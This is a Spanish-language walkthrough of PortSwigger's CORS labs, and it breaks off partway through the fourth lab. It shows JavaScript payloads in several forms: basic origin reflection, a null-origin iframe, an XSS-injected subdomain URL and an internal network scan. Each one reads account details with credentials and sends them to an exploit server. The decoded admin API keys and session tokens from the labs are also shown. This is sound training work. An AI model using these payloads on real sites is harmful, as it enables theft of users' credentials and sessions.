layout: default
title: "Cross-origin resource sharing - PortSwigger"
permalink: /cors-ps/

# Cross-origin resource sharing - PortSwigger

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en el siguiente link.

[https://portswigger.net/web-security/cors](https://portswigger.net/web-security/cors)

## Índice

## 1. Lab: CORS vulnerability with basic origin reflection

```
Este sitio web tiene una configuración CORS insegura en la que confía en todos los orígenes.

Para resolver el laboratorio, cree JavaScript que use CORS para recuperar la clave API del administrador y cargue el código en su servidor de explotación. El laboratorio se resuelve cuando envía correctamente la clave API del administrador.

Puede iniciar sesión en su propia cuenta con las siguientes credenciales:wiener:peter
```

El reto consiste en obtener el API del usuario administrador, para ello primero nos logeamos y buscamos algun paquete que sea interesante o que contenga la API del usuario. Encontramos un recurso que nos devuelve la API del usuario.



Ahora, armaremos nuestro payload ingresando al exploit server. Nuestro payload sera un javascript, de la siguiente manera:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://accd1fd41f49fd57c0710d75007f00b6.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//exploit-acde1f681f31fd46c0970d7d01670029.web-security-academy.net//log?key='+btoa(this.responseText);
};
```

Y tambien, agregaremos unas cabeceras HTTP.

```
Access-Control-Allow-Origin: https://exploit-acde1f681f31fd46c0970d7d01670029.web-security-academy.net
Access-Control-Allow-Credentials: true
```

Entronces, la configuracion quedaria de la siguiente manera:



Entonces, enviamos el exploit y la victima y revisamos los logs.



Como podemos ver, tenemos una cadena en base64 desde una ip diferente. Entonces lo decodearemos para obtener la key de administrador.

```
-$ echo 'ewogICJ1c2VybmFtZSI6ICJhZG1pbmlzdHJhdG9yIiwKICAiZW1haWwiOiAiIiwKICAiYXBpa2V5IjogInJjcUhHMFlBazVDSWQ2REE2TmlZTGJmZFJUY0hRUE9TIiwKICAic2Vzc2lvbnMiOiBbCiAgICAiMnJZZHpDN21IWGNMUFlSMnlSUnd5eGtEdEVSTTMwdUEiCiAgXQp9' | base64 -d
{
  "username": "administrator",
  "email": "",
  "apikey": "rcqHG0YAk5CId6DA6NiYLbfdRTcHQPOS",
  "sessions": [
    "2rYdzC7mHXcLPYR2yRRwyxkDtERM30uA"
  ]
}
```

Entonces, enviamos el API key de administrator, en la opcion **Submit Solution** y completamos el reto.



## 2. Lab: CORS vulnerability with trusted null origin

```
Este sitio web tiene una configuración CORS insegura en la que confía en el origen "nulo".

Para resolver el laboratorio, cree JavaScript que use CORS para recuperar la clave API del administrador y cargue el código en su servidor de explotación. El laboratorio se resuelve cuando envía correctamente la clave API del administrador.

Puede iniciar sesión en su propia cuenta con las siguientes credenciales:wiener:peter
```

Nos logeamos y vemos el paquete que contiene la API key del usuario. El payload para este reto seria el siguiente:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','ac1c1f0a1e0ad0efc0fe16960000005a.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='exploit-ac511fac1ed3d0cec0ce1665015c0008.web-security-academy.net/log?key='+btoa(this.responseText);
};
</script>"></iframe>
```

Cuando le damos en **Deliver exploit to victim** y revisamos en los log, podemos ver que no hay ningun registro en el recurso **/log**. Por ello lo que haremos sera acceder manualmente a la url del exploit y verificamos con la consola del navegador para ver si existe algun error.



Como podemos ver, el error se basa en una url invalida por ello actualizaremos el payload de manera completa con los protocolos https.

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://ac1c1f0a1e0ad0efc0fe16960000005a.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://exploit-ac511fac1ed3d0cec0ce1665015c0008.web-security-academy.net/log?key='+btoa(this.responseText);
};
</script>"></iframe>
```

Entonces, enviamos el exploit a la victima y revisamos el log.



Como podemos ver, tenemos una cadena en base64 desde una ip diferente. Entonces lo decodearemos para obtener la key de administrador.

```
-$ echo 'ewogICJ1c2VybmFtZSI6ICJhZG1pbmlzdHJhdG9yIiwKICAiZW1haWwiOiAiIiwKICAiYXBpa2V5IjogIndwMm1PeDg4dFVmOUlDenRvSE91OGZEZDUzYmNldmJrIiwKICAic2Vzc2lvbnMiOiBbCiAgICAiek5VRFNOcjNDV3liaTBJclNmYlFTU0UxVm1nQkp3U1MiCiAgXQp9' | base64 -d
{
  "username": "administrator",
  "email": "",
  "apikey": "wp2mOx88tUf9ICztoHOu8fDd53bcevbk",
  "sessions": [
    "zNUDSNr3CWybi0IrSfbQSSE1VmgBJwSS"
  ]
```

Entonces, enviamos el API key de administrator, en la opcion **Submit Solution** y completamos el reto.



## 3. Lab: CORS vulnerability with trusted insecure protocols

```
Este sitio web tiene una configuración CORS insegura en la que confía en todos los subdominios independientemente del protocolo.

Para resolver el laboratorio, cree JavaScript que use CORS para recuperar la clave API del administrador y cargue el código en su servidor de explotación. El laboratorio se resuelve cuando envía correctamente la clave API del administrador.

Puede iniciar sesión en su propia cuenta con las siguientes credenciales:wiener:peter
```

Nos logeamos y vemos el paquete que contiene la API key del usuario. En la pista podemos ver nos dice lo siguiente:

```
Si pudiera atacar a la víctima con un hombre en el medio (MITM), podría usar un ataque MITM para secuestrar una conexión a un subdominio inseguro e inyectar JavaScript malicioso para explotar la configuración de CORS. Desafortunadamente, en el entorno de laboratorio, no puede MITM a la víctima, por lo que deberá encontrar una forma alternativa de inyectar JavaScript en el subdominio.
```

Entonces, lo que haremos sera buscar algun subdominio que sea vulnerable a XSS para insertar ahi nuestro payload.



Revisando el sitio web verificamos que tenemos una opcion llamada **Check stock**, luego de hacer clic se nos abre una ventana emergente con el numero de stock del producto. Podemos ver que forma parte de un subdominio.



Entonces, intentaremos cambiar el valor del parametro **productId** por un alert.

```
https://stock.acd31f7d1ff7f90fc06c48bc000e0070.web-security-academy.net/?productId=%3Cscript%3Ealert(1)%3C/script%3E&storeId=1
```

Entonces, vemos que funciona el XSS en el subdominio stock.



Entonces, armaremos nuestro payload para colocarlo en la url y robar la key del admin.

```javascript
var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://acd31f7d1ff7f90fc06c48bc000e0070.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener(){ location='http://exploit-ac711fad1f38f909c033482301c700d8.web-security-academy.net/log?key='+btoa(this.responseText); };
```

Hacemos un url encode en la url:

```
https://stock.acd31f7d1ff7f90fc06c48bc000e0070.web-security-academy.net/?productId=%3Cscript%3Evar%20req%20%3D%20new%20XMLHttpRequest()%3B%20req.onload%20%3D%20reqListener%3B%20req.open(%27get%27%2C%27https%3A%2F%2Facd31f7d1ff7f90fc06c48bc000e0070.web-security-academy.net%2FaccountDetails%27%2Ctrue)%3B%20req.withCredentials%20%3D%20true%3B%20req.send()%3B%20function%20reqListener()%7B%20location%3D%27http%3A%2F%2Fexploit-ac711fad1f38f909c033482301c700d8.web-security-academy.net%2Flog%3Fkey%3D%27%2Bbtoa(this.responseText)%3B%20%7D%3B%3C%2Fscript%3E&storeId=1
```

Actualizamos en el server exploit el contenido utlizando una redireccion a la url del subdominio con el xss insertado.

```
<script>location="https://stock.acd31f7d1ff7f90fc06c48bc000e0070.web-security-academy.net/?productId=%3Cscript%3Evar%20req%20%3D%20new%20XMLHttpRequest()%3B%20req.onload%20%3D%20reqListener%3B%20req.open(%27get%27%2C%27https%3A%2F%2Facd31f7d1ff7f90fc06c48bc000e0070.web-security-academy.net%2FaccountDetails%27%2Ctrue)%3B%20req.withCredentials%20%3D%20true%3B%20req.send()%3B%20function%20reqListener()%7B%20location%3D%27http%3A%2F%2Fexploit-ac711fad1f38f909c033482301c700d8.web-security-academy.net%2Flog%3Fkey%3D%27%2Bbtoa(this.responseText)%3B%20%7D%3B%3C%2Fscript%3E&storeId=1";</script>
```

Entonces, luego de configurar el exploit server lo enviamos a la victima y revisamos el log.



Como podemos ver, tenemos una cadena en base64 desde una ip diferente. Entonces lo decodearemos para obtener la key de administrador.

```
-$ echo 'ewogICJ1c2VybmFtZSI6ICJhZG1pbmlzdHJhdG9yIiwKICAiZW1haWwiOiAiIiwKICAiYXBpa2V5IjogInY3RVhGUVozRHV5SWRiUWczWmlPYmZrdVU1Rmx2Qk5kIiwKICAic2Vzc2lvbnMiOiBbCiAgICAieWZOSjVQSmMzSVhpTTI5YWhyamh0YU9CQjdrb041b04iCiAgXQp9' | base64 -d
{
  "username": "administrator",
  "email": "",
  "apikey": "v7EXFQZ3DuyIdbQg3ZiObfkuU5FlvBNd",
  "sessions": [
    "yfNJ5PJc3IXiM29ahrjhtaOBB7koN5oN"
  ]
}
```

Entonces, enviamos el API key de administrator, en la opcion **Submit Solution** y completamos el reto.



## 4. Lab: CORS vulnerability with internal network pivot attack

```
Este sitio web tiene una configuración CORS insegura en el sentido de que confía en todos los orígenes de la red interna.

Esta práctica de laboratorio requiere varios pasos para completarse. Para resolver el laboratorio, elabore algo de JavaScript para ubicar un punto final en la red local ( 192.168.0.0/24, puerto 8080) que luego puede usar para identificar y crear un ataque basado en CORS para eliminar un usuario. El laboratorio se resuelve cuando eliminas el usuario Carlos.
```

script

```
<script>

for(var i=0; i < 256; i++){
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','http://192.168.0.'+i+':8080/login',true);
	req.send();
}

function reqListener() {
	var req2 = new XMLHttpRequest();
	req2.open('GET', "http://exploit-acbf1f2d1eb9630cc0561f5b019d00f5.web-security-academy.net/log?key="+btoa(this.responseText), true);
	req2.send();
};
</script>
```

